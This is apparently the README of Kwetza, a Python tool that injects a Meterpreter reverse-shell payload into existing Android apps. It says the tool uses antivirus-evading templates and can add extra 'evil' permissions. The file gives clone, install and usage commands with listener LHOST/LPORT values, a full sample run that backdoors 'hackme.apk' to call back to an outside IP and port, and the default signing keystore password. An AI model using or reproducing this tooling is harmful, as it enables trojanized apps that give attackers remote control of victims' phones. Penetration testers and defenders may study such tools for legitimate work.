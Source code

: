 # Introduction
[![Arsenal](https://rawgit.com/toolswatch/badges/master/arsenal/2017.svg)](http://www.toolswatch.org/2017/06/the-black-hat-arsenal-usa-2017-phenomenal-line-up-announced/)

By Agh0r1 (@crazetocode) agh0r1@blackhost.xyz

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

# What does it do?

Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissions to gain additional functionality.

# Where can I get the blogpost?
The manual steps automated by Kwetza can be found here: https://lucideustech.blogspot.in/2018/03/the-black-hat-art-of-backdooring_3.html

# Getting the code

Firstly get the code:
```
git clone https://github.com/agh0r1-hacker/kwetza.git
```

Kwetza is written in Python and requires BeautifulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

# Usage

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = name of the APK you wish to infect.
* https/tcp = select either a HTTPS or TCP connection
* LHOST = IP of your listener.
* LPORT = Port of your listener.
* yes = include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.
* customClass = Specify a custom activity here if you want Kwetza to inject into this activity.

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# Information

Kwetza has been developed to work with Python 2.

Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk.

If you would like to sign the infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the reference in the kwetza.py.

The same can be done for payload templates.

The password for the default keystore is, well, "password".

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).





Made with ![heart](https://cloud.githubusercontent.com/assets/4301109/16754758/82e3a63c-4813-11e6-9430-6015d98aeaab.png) by <a href=https://www.linkedin.com/in/coderpandit>Coder Pandit</a>